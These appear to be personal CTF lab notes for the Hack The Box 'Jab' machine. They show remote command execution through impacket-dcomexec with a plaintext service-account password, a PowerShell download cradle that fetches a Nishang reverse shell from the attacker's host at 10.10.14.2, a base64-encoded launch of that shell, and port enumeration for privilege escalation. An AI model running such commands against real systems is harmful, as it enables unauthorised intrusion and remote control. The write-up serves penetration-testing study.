 
## `pwn`-user
```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 dcomexec.py

┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ /usr/bin/impacket-dcomexec -object MMC20 jab.htb/svc_openfire@dc01.jab.htb 'ping -n 3 localhost' -debug -nooutput        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
Password:!@#$%^&*(1qazxsw
[+] Target system is dc01.jab.htb and isFQDN is True
[+] StringBinding: DC01[60353]
[+] StringBinding chosen: ncacn_ip_tcp:dc01.jab.htb[60353]


```

```bash
┌──(pwn㉿kali)-[~/windows-post-exp]
└─$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 /home/pwn/jab
-edit the ip and port
```
-set up python web server 
```BASH
IEX (New-Object Net.WebClient).downloadString('http://10.10.14.2:8000/Invoke-PowerShellTcpOneLine.ps1')
execute directly in memory
- encode it
┌──(pwn㉿kali)-[~/jab]
└─$ cat shell.ps1 | iconv -t utf-16le|base64 -w 0
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAOgA4ADAAMAAwAC8ASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAFQAYwBwAE8AbgBlAEwAaQBuAGUALgBwAHMAMQAnACkACgA=                                  

──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ /usr/bin/impacket-dcomexec -object MMC20 jab.htb/svc_openfire@dc01.jab.htb 'powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAOgA4ADAAMAAwAC8ASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAFQAYwBwAE8AbgBlAEwAaQBuAGUALgBwAHMAMQAnACkACgA=' -debug -nooutput


```

![[Pasted image 20250211170326.png]]


## `pwn` -root
-management interfaces??
-we have server so we have to manage it so where are the panel or service to manage it
```bash
PS C:\users\svc_openfire\desktop> netstat -ano

  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       3268
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       3268

```
i mentioned above that
`host the **administration panel** (usually found on port **9090 or 7070**).`
-with that being said lets port forward
